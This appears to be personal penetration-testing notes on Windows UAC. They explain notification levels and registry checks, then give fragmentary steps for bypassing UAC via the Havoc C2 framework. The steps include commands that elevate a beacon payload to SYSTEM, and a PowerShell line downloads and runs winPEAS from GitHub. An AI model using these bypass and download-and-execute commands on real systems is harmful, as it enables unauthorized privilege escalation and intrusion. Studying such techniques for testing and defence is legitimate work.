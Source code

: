# UAC - User Account Control (Privilege Escalation)

User Account Control (UAC) is a security feature in Windows that helps prevent unauthorized changes to your computer. These changes can be initiated by applications, viruses, or other forms of malware. UAC ensures that such changes cannot be made without your knowledge or consent, adding an extra layer of security.

# Process and integrity levels

screenshot admin user medium integrity

> ***IMPORTANT***: `UAC Bypasses` only work for users that are in the administrator group on the local machine.

![image](./images/uac_adminprivs.jpg)

## How UAC Works

1. **Permissions and Elevation**
When you or an application tries to make changes that require administrative privileges, UAC prompts you to confirm or deny the action. This is known as elevation. Only an administrator account can provide the necessary permission to proceed.

2. **Secure Desktop**
In higher UAC settings, the prompt appears on the secure desktop. This is a screen dimming feature that makes it difficult for malware to interact with or spoof the UAC prompt. Essentially, it ensures that the prompt is coming from Windows and not from a malicious program.

3. **Levels of Notification**
UAC has different levels of notification settings, ranging from always notifying you of changes to never notifying you (effectively turning off UAC).

## User Account Control (UAC) has four levels of notification settings:

1. **Always notify**: This is the highest level of protection. It notifies you before any changes are made to your computer that require administrator permissions. It also freezes other tasks until you respond.

2. **Notify me only when programs try to make changes to my computer**: This is the `DEFAULT` level. It notifies you when programs try to make changes to your computer or install software.

3. **Notify me only when programs try to make changes to my computer (do not dim my desktop)**: Similar to the previous level, but it doesn't switch to the Secure Desktop with desktop locking.

4. **Never notify**: This is the lowest level of protection. UAC is disabled, and you won't be notified when changes are made to your computer.

You can adjust these settings by moving the slider in the User Account Control Settings window.

# MITRE Reference

![image](./images/uac_mitre.jpg)

![image](./images/uac_settings.jpg)

Running a simple powershell command that add's a registry key with some values shows nicely what this actually means:

![image](./images/uac_ps.jpg) 

![image](./images/uac_prompt.jpg)

Check if UAC is enabled (1 = enabled, 0 is disabled)

```powershell
Get-ItemProperty -Path 'HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System' |Select-object EnableLua
```

And to check which level it is :

```powershell
Get-ItemProperty -Path 'HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System' |Select-object ConsentPromptBehaviorAdmin
```
| Value | Description                                  |
| ----- | -------------------------------------------- |
| 0     | No Prompt                                    |
| 1     | Prompt for credential on the secure desktop  |
| 2     | Prompt for CONSENT on the secure desktop     |
| 3     | Prompt for Credentials on the normal desktop |
| 4     | Prompt for CONSENT on the normal desktop     |
| 5     | Prompt for CONSENT for non-windows binaries  |




https://www.youtube.com/watch?v=ZhaZJ4Uipqk

Fodhelper


Demo with cmd.exe -> medium level even if admin
runas 
show whoami / groups
show system informer


start beacon as unprivileged user

whoami groups

```bash
sudo apt install mingw-w64 -y

git clone https://github.com/icyguider/UAC-BOF-Bonanza.git
make
```

In Havoc -> Script Manager Load .py

Set Sleep to 10

```code
uac-bypass sspidatagram c:\windows\system32\cmd.exe
uac-bypass sspidatagram c:\temp\demon.x64.exe -> NT Authority\System
uac-bypass silentcleanup /opt/havoc/payloads/demon.x64.exe -> error
```

---
Priv Esc.

```powershell
powershell "IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/peass-ng/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1')"
```
